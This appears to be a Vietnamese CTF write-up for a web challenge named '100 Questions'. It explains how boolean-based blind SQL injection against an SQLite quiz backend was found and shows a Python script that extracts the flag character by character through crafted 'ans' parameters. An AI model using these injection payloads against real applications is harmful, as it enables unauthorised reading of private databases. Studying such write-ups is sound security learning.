

# 100 Questions


Ban đầu bài này không có source nên mình ngồi fuzz để solve bài này

Giao diện trang web là một form trả lời câu hỏi, đúng thì trả về `Correct!` còn sai thì trả về `No input / wrong!!!! Try harder` 



Câu hỏi và câu trả lời của mình được truyền thông qua các param `/?qn_id=100&ans=2`


Theo như description thì trong 100 câu hỏi này có một câu quan trọng hơn các câu khác, có vẻ như câu hỏi này có liên quan đến flag nên mình thử fuzz xem các câu hỏi này là gì

Mình có thấy câu 42 hỏi là `Q42: Flag?`


Đến đây thì mình dự đoán ở đây các câu hỏi và câu trả lời đều được lấy ra từ database nên mình tiếp tục fuzz phần đáp án của câu 42 thì thấy mình đã đúng D:


Tiếp tục fuzz thì mình xác định được database ở đây là SQLite, dạng SQL này là boolean based, fuzz tiếp ra được bảng `QNA` và 3 cột `ID, Questions, Answers`

script lấy flag nằm ở dòng 42 cột Answer

[solve.py](./solve.py)

```python
import requests
import string
flag=""
for i in range(20):
    for char in string.printable:
        try:
            burp0_url = f"http://34.126.139.50:10512/?qn_id=42&ans=1%27%20or%20(SELECT%20hex(substr(Answer,{i},1))%20FROM%20QNA+limit+1+offset+41)%20=%20hex(%27{char}%27)%20--%20-"
            burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            req=requests.get(burp0_url, headers=burp0_headers)
            if "Correct!" in req.text:
                flag+=char
                print(flag)
                break
        except:
            pass
```

`Flag: grey{1_c4N7_533}`